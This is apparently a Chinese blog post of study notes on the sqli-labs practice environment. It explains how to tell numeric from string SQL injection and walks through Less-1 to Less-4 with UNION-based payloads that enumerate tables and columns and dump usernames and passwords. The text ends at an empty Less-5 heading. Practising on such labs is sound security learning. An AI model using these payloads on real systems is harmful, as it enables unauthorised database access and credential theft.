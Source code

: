 ```yaml
---
layout:    post
title:     sqli-labs
subtitle:  学习学习
date:      2020-10-23
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tage:
    - 学习
---
```


####  一、SQL注入类型判断（前提了解）

        数字型注入
        字符型注入

1.数字型：输入 id=1 and 1=1 和 1=2进行判断，首先在URL中输入？id=1 and 1=1 页面显示正常，后输入id=1 and 1=2 页面出错，说明注入类型为数字型。<br>

原因如下：当输入 and 1=1时，后台执行sql语句：<br>

select*from <> where id = 1 and 1=1;<br>

没有语法错误且逻辑判断正确，返回正常。<br>

当输入 and 1=2时，后台执行sql语句：<br>

select*from <> where id = 1 and 1=2;<br>

没有语法错误，但逻辑判断为假，所以返回错误。<br>

若为字符型输入上述语句，后台执行sql语句：<br>

select*from <> where id ='1 and 1=1';<br>

select*from <> where id = '1 and 1=2';<br>

查询语句将and语句全部转换为字符串，不会进行逻辑判断，所以不会显示错误。<br>

2.字符型：输入 and '1'='1 和 and '1'='2来判断. 。当输入and '1'='1时页面正常，输入 and '1'='2后错误，说明注入类型为字符型。<br>

原因如下：当输入 and '1'='1时，sql语句为：<br>

select*from <> where id = 'x' and '1'='1'; <br>

没有语法错误且逻辑判断正确，返回正常。<br>

当输入 and '1'='2时，sql语句为：<br>

select*from <> where id = 'x' and '1'='2'; <br>

没有语法错误，但逻辑判断为假，所以返回错误。<br>

#### Less-1

​    1.使用hackbar,首先输入id= 1,显示正常，接着输入id=1 and 1=2判断是否为数字型注入，发现不是。

​    2.输入id=1' 显示错误，说明为字符型注入。

​    3.用--+注释掉后面的’，输入id=1' order by x --+ （x=1,2,3,4）,判断字段，发现有3个字段。

​	4.id=-1' union select 1,2,3 --+，判断回显（要让系统使用联合查询，要使前面id错误（如id=-1等错误id）来进行后面的查询语句）。回显位为2，3位。

​	5.id=-1' union select 1,database(),3 --+,查询数据库名称。

​	6.id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+,得到表名。

​	7.id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+,得到列名。

​	8.id=-1' union select 1,(select group_concat(username,password) from security.users),3 --+,成功。

#### Less-2

​	1.判断注入，输入id=1 and 1=2，报错，数字型注入。

​	2.步骤同Less-1。

#### Less-3

​	1.判断注入，发现是基于 ') 的字符注入。id=1') --+。

​	2.步骤同Less-1。

#### Less-4

​	1.判断注入，为基于 ") 的字符注入。 id=1") --+。

​	2.步骤同Less-1。

#### Less-5


